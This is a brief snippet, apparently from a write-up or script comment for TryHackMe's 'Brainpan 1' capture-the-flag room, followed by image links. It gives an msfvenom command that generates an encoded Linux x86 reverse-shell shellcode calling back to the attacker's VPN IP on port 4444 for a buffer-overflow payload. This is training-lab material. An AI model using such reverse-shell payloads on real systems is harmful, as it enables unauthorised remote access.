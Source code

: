 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/  shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.


[![1e85c1ebf1b58d771d1fd78b8a728ad7.png](https://i.postimg.cc/652MhLzL/1e85c1ebf1b58d771d1fd78b8a728ad7.png)](https://postimg.cc/mt43L9vt)

